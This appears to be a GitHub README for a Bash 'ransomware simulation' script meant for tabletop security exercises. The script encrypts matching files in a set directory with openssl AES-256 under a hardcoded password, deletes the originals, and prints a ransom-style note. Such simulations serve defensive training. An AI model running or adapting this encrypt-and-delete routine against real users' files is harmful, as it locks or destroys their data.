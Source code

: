 # ransomwarem simulation script
CCreated a script that has similar effects of ransomware for use in tabletop security exercises and defense exercises 

The BASH scripting language was used to create this script but it can be edited for use on Windows systems. The script encrypts the files on the specified directory using AES256 symmetric but it can always be decrypted with a password. 

##SCRIPT

##Directory to "encrypt" files in <br />
TARGET_DIR="/home/workstation/Downloads" #input the path to the directory you want to encrypt <br />

##Encryption key<br />
ENCRYPTION_KEY="passwords"<br />

##Check if the target directory exists<br />
if [ ! -d "$TARGET_DIR" ]; then<br />
  echo "Directory $TARGET_DIR does not exist."<br />
  exit 1<br />
fi<br />

##Encrypt existing files using AES-256<br />
echo "Encrypting files in $TARGET_DIR..."<br />
for FILE in "$TARGET_DIR"/*.txt.cis; do<br />
  if [ -f "$FILE" ]; then<br />
    # Encrypt the file in aes256 and add .encrypted to the end<br />
    openssl enc -aes-256-cbc -in "$FILE" -out "${FILE}.encrypted" -pass pass:"$ENCRYPTION_KEY"<br />
    rm "$FILE" # Remove original file<br />
    echo "$FILE has been encrypted."<br />
  fi<br />
done<br />

##Display ransom note<br />
echo -e "\nYour files have been 'encrypted'. To recover them, follow the steps listed. report and we sell data"<br />
